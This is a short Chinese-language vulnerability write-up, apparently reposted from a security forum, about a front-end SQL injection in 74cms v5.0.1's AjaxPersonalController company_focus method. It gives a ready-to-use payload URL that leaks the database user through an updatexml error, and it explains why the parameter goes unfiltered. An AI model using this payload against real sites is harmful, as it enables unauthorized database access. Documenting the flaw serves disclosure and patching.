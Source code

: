 # 74cms v5.0.1前台sql注入

> 原文：[https://www.zhihuifly.com/t/topic/2795](https://www.zhihuifly.com/t/topic/2795)

# 74cms v5.0.1 前台sql注入

## 一、漏洞简介

74cms 5.0.1 前台AjaxPersonalController.class.php存在SQL注入

## 二、漏洞影响

## 三、复现过程

### 具体信息

文件位置：74cms\upload\Application\Home\Controller\AjaxPersonalController.class.php

方法：function company_focus($company_id)

是否需登录：需要

登录权限：普通用户即可

### Payload:

```
http://0-sec.org/74cms/5.0.1/upload/index.php?m=&c=AjaxPersonal&a=company_focus&company_id[0]=match&company_id[1][0]=aaaaaaa") and updatexml(1,concat(0x7e,(select user())),0) -- a 
```

![image](img/18ca92dd70bafc9493f20840eb5c27e6.png)

### 源码分析：

文件：74cms\upload\Application\Home\Controller\AjaxPersonalController.class.php

company_focus 方法是参数化函数，$company_id参数是不经过I函数过滤的，所以只要where可以控制，那就可以注入

![image](img/b899b8cd0c34d7e28b6b5398b55d9a7e.png)

跟踪add_focus(),发现SQL语句参数外部都可以控制，导致了注入漏洞

![image](img/fc31cf6834ac6390ddef158127ec1f3f.png)